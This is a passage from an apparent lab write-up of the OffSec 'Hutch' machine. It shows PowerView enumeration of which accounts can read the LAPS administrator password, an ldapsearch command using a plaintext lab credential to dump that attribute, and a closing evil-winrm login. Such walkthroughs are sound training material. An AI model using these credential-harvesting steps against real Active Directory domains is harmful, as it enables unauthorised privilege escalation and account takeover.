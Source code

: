 
We could potentially get the administrator's password from this. First, we need to see who can read it using `PowerView.ps1`:

{% code overflow="wrap" %}
```powershell
PS C:\Windows\Tasks> Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-Admpwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | select IdentityName

IdentityName       
------------       
HUTCH\Domain Admins
HUTCH\fmcsorley 
```
{% endcode %}

The user `fmcsorley` can read the password. I checked using `ldapsearch`, and sure enough it was there:

{% code overflow="wrap" %}
```
$ ldapsearch -x -H ldap://192.168.197.122 -D 'hutch\fmcsorley' -w 'CrabSharkJellyfish192' -b "DC=hutch,DC=offsec" > fmc.txt
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (1932).png" alt=""><figcaption></figcaption></figure>

We can then `evil-winrm` in using it:

<figure><img src="../../../.gitbook/assets/image (310).png" alt=""><figcaption></figcaption></figure>

Rooted!&#x20;
